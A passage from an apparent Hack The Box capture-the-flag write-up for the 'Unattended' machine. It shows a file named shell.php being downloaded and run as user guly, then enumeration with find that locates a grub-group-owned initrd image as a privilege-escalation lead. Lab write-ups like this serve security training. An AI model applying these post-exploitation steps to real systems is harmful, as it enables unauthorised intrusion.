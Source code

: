 ```
Saving to: ‘shell.php’

shell.php           100%[===================>]   1.08K  --.-KB/s    in 0s

2019-08-23 13:25:49 (100 MB/s) - ‘shell.php’ saved [1110/1110]

guly@unattended:/tmp$ php ./shell.php
php ./shell.php
/*
```
![](/images/hackthebox/unattended/19.png)
<br> I noticed that `guly` was in the local group `grub`, I searched for files that are owned by this group :
```
guly@unattended:/tmp$ find / -group grub
find / -group grub
find: ‘/proc/tty/driver’: Permission denied
find: ‘/proc/1146/task/1146/fd/7’: No such file or directory
find: ‘/proc/1146/task/1146/fdinfo/7’: No such file or directory
find: ‘/proc/1146/fd/6’: No such file or directory
find: ‘/proc/1146/fdinfo/6’: No such file or directory
find: ‘/lost+found’: Permission denied
find: ‘/var/spool/cron/crontabs’: Permission denied
find: ‘/var/spool/rsyslog’: Permission denied
find: ‘/var/tmp/vmware-root_861-3988621786’: Permission denied
find: ‘/var/tmp/vmware-root’: Permission denied
find: ‘/var/tmp/systemd-private-5706e28397b54bc0b26acb5f73105e4f-apache2.service-Mjh5Or’: Permission denied           
find: ‘/var/tmp/systemd-private-5706e28397b54bc0b26acb5f73105e4f-apache2.service-xDCH4o’: Permission denied  
find: ‘/var/tmp/systemd-private-5706e28397b54bc0b26acb5f73105e4f-systemd-timesyncd.service-w07Cfj’: Permission denied
find: ‘/var/tmp/systemd-private-5706e28397b54bc0b26acb5f73105e4f-systemd-timesyncd.service-90T8ai’: Permission denied
find: ‘/var/log/mysql’: Permission denied
find: ‘/var/log/apache2’: Permission denied
find: ‘/var/lib/vmware-caf/pme/data/input/monitor’: Permission denied
find: ‘/var/lib/vmware-caf/pme/data/output’: Permission denied
find: ‘/var/lib/php/sessions’: Permission denied
find: ‘/var/lib/nginx/fastcgi’: Permission denied
find: ‘/var/lib/nginx/proxy’: Permission denied
find: ‘/var/lib/nginx/body’: Permission denied
find: ‘/var/lib/nginx/scgi’: Permission denied
find: ‘/var/lib/nginx/uwsgi’: Permission denied
find: ‘/var/lib/mysql/mysql’: Permission denied
find: ‘/var/lib/mysql/performance_schema’: Permission denied
find: ‘/var/lib/mysql/neddy’: Permission denied
find: ‘/var/lib/apt/lists/partial’: Permission denied
find: ‘/var/cache/ldconfig’: Permission denied
find: ‘/var/cache/apt/archives/partial’: Permission denied
find: ‘/boot/lost+found’: Permission denied
/boot/initrd.img-4.9.0-8-amd64
find: ‘/root’: Permission denied
find: ‘/sys/kernel/debug’: Permission denied
find: ‘/etc/ssl/private’: Permission denied
find: ‘/etc/vmware-tools/GuestProxyData/trusted’: Permission denied
find: ‘/tmp/vmware-root_861-3988621786’: Permission denied
```